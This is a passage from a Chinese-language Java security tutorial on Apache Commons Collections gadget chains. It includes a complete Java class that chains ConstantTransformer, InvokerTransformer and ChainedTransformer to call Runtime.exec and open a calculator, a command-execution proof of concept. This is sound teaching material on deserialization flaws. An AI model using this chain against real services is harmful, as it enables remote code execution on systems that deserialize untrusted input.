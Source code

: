 ```java
        }
        return object;
    }
}
```

同时它提供了一个`transform`方法用于执行转换操作，依次将输入对象传递给链中的每个 Transformer 进行处理，并且每个 Transformer 的转换结果将作为下一个 Transformer 的输入。那么现在就可以将`InvokerTransformer`、`ConstantTransformer`、`ChainedTransformer`三者组合起来，实现一个本地命令执行的调用。

```java
package com.javasec.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class ChainedTransformerTest {
    public static void main(String[] args) {

        Transformer[] ts = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class },
                        new Object[] {"getRuntime", new Class[0] }
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class },
                        new Object[] {null, new Object[0] }
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String.class },
                        new Object[] {"open -a Calculator"}
                )
        };

        Transformer tc = new ChainedTransformer(ts);

        Object transform = tc.transform(null);
    }
}

```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/035ccde7-73c8-44a8-97eb-ebde49edae65/8.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=10b528261a136bc11a60e9120fbd64335fd04ca1144d89eaaffed09d4d4baee8&X-Amz-SignedHeaders=host&x-id=GetObject)

## TransformedMap 中间链
